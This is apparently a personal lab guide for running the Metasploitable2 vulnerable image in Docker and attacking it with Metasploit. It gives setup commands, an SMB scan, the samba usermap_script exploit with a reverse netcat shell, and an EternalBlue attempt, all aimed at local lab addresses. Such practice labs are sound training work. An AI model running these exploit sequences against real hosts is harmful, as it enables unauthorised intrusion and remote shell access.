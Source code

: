 # 1. Preparation
## Use Docker to run Metasploit

### Check Docker status
`docker --version`

# 2. Build attack target
### Download Metasploit2 
`docker pull tleemcjr/metasploitable2`

### Run Metasploit2 in Docker
- enable metaspoilt module and keep running
`docker run -d --name vulnerable -p 445:445 -p 21:21 -p 22:22 -p 80:80 tleemcjr/metasploitable2 bash -c "/bin/services.sh && tail -f /dev/null"`

- get Target IP
`docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' vulnerable`

- Optional
`docker run -d --name vulnerable -p 445:445 -p 21:21 -p 22:22 -p 80:80 tleemcjr/metasploitable2`

- Explanation of vulnerable
    - -p 445:445：開放 SMB（檔案共享漏洞）
    - -p 21:21：開放 FTP（容易被暴力破解）
    - -p 22:22：開放 SSH（可能存在弱密碼）
    - -p 80:80：開放 Web 服務（可能存在漏洞）

### Check Metasploit2 in Docker status
`docker ps`  # check docker status
`docker rm -f vulnerable`  # if docker exist, but didn't running then delete it.
`docker run -d --name vulnerable -p 445:445 -p 21:21 -p 22:22 -p 80:80 tleemcjr/metasploitable2 bash -c "/bin/services.sh && tail -f /dev/null"` # rerun vul docker
`docker start vulnerable`  # rerun

# 3. Run attacker
### Run Metasploit in Docker
`docker run --rm -it metasploitframework/metasploit-framework  # delete when exit docker`
`help  # check metasploit status`

- Optional
`docker run -it --name metasploit metasploitframework/metasploit-framework  # keep docker container`
`docker start -ai metasploit  # run docker with next time`

# 4. Scan target system
use exploit/multi/samba/usermap_script


msf6 > use auxiliary/scanner/smb/smb_version
msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 172.17.0.2
msf6 auxiliary(scanner/smb/smb_version) > run

## exploit
use exploit/multi/samba/usermap_script
set RHOSTS 172.17.0.2
check
set PAYLOAD cmd/unix/reverse_netcat
set LHOST 172.17.0.3
exploit



msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 172.17.0.2
msf6 exploit(windows/smb/ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
set PAYLOAD cmd/unix/reverse_netcat
